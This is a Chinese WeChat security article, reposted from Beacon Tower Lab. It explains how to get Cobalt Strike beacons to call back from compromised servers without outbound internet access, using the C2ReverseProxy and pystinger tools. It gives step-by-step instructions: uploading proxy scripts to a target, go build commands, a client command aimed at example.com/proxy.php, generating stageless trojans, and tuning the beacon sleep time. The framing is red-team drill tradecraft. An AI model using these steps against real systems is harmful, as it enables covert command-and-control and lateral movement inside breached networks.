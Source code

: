 #  工具推荐之不出网环境下上线CS

[ 哈拉少安全小队 ](javascript:void\(0\);)

**哈拉少安全小队** ![]()

微信号 gh_b273ce95df95

功能介绍
专注安全技术分享，涵盖web渗透，代码审计，内网/域渗透，poc/exp脚本开发，经常更新一些最新的漏洞复现，漏洞分析文章，内网渗透思路技巧、脱敏的实战文章、waf绕过技巧以及好文推荐等，未来着重点会在java安全相关分享。

____

___发表于_

收录于合集

以下文章来源于Beacon Tower Lab ，作者烽火台实验室

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM4LuUJFMlDqZicCJvOGdeVdEXlYxdPqkZ6A9VDibsnUW2oQ/0)
**Beacon Tower Lab** .

"海上千烽火，沙中百战场"，烽火台实验室将为您持续输出前沿的安全攻防技术

  

**前言**

  

在实战攻防演练中，我们经常会遇到目标不出网的情况，即便获取了目标权限也不方便在目标网络进行下一步横向移动。本期我们将会推荐两个常用的代理工具，使我们能在不出网的环境下让目标上线到CS，方便后渗透的工作。

  

  

 **工具1：DReverseServer**

  

 **工具链接：**

https://github.com/Daybr4ak/C2ReverseProxy

  

 **工具原理：**

利用代理转发将目标服务器上的CS的流量特征转发到CS服务端上，类似模拟一个木马在本地Listener进行上线。

  

 **官方使用说明：**

1、将C2script目录下的对应文件，如proxy.ashx 以及C2ReverseServer上传到目标服务器。

2、使用C2ReverseServer建立监听端口：

./C2ReverseServer  (默认为64535)

3、修改C2script目录下对应文件的PORT，与C2ReverseServer监听的端口一致。

4、本地或C2服务器上运行C2ReverseClint工具

./C2ReverseClint -t C2IP:C2ListenerPort -u http://example.com/proxy.php
(传送到目标服务器上的proxy.php路径)

5、使用CobaltStrike建立本地Listener(127.0.0.1 64535)端口与C2ReverseServer建立的端口对应

6、使用建立的Listner生成可执行文件beacon.exe传至目标服务器运行

7、可以看到CobaltStrike上线。

![]()

 **DReverseServer复现步骤**

  

 **1、放置脚本文件到目标服务器**

![]()

  

 **2、编译服务端程序**

 **  
**

在cmd命令行输入 CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build
DReverseServer.go完成受害者端应用程序编译。

![]()

  

 **3、编译CS端程序**

 **  
**

在cmd命令行输入CGO_ENABLED=0 GOOS=darwin GOARCH=amd64 go build
DReverseClint.go完成CS端应用程序编译。  

![]()

  

 **4、生成stagerless木马**

 **  
**

Staged 和 Stageless 的区别在于Staged实际功能只是程序执行后和C2
建立连接并接收真正的shellcode,然后加载执行(这里服务器不出网所以导致无法正常建立连接)；而 Stageless 直接省去了接收 Payload
的步骤 。  

![]()

  

 **5、目标客户端监听**

![]()

  

 **6、CS端监听**

![]()

  

 **7、等待上线**

![]()

  

 **8、注意事项**

 **  
**

a) 本地复现php脚本需打开socket选项。

![]()

  

b)
建议用户对CS的jar文件中的/resources/default.profile进行修改，将sleeptime值修改1000以下，这样CS生存的木马上线就不用默认等待60秒。

![]()

  

 **工具2：pystinger**

  

 **工具链接：**

https://github.com/FunnyWolf/pystinger/  

  

 **工具原理：**

利用内网反向代理转发将目标服务器上的木马上线与连接、操作流量特征通过HTTP协议方式转发至C2服务端，使其目标在不出网情况下上线MSF、viper、CS。

  

 **官方使用说明：**

详见https://github.com/FunnyWolf/pystinger/blob/master/readme_cn.md

  

 **pystinger复现步骤**

 **  
**

工具可分为2块内容：

  

1、stinger_server程序+proxy脚本。

2、stinger_client程序+木马程序

![]()

  

 **1、放置脚本文件到目标服务器**

 **  
**

访问下图页面代表成功。

![]()

  

 **2、在目标机器运行stinger_server**

![]()

  

 **3、在CS端运行stinger_client**

![]()

  

 **4、生成木马**

 **  
**

根据stinger_server反馈的Payload端口，在CS界面新增一个Listener，并使用这个Listener新生成一个恶意木马。

![]()

  

我们通过命令界面能看到网络连接详情，最后愉快的开启内网渗透。

![]()![]()![]()  
  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

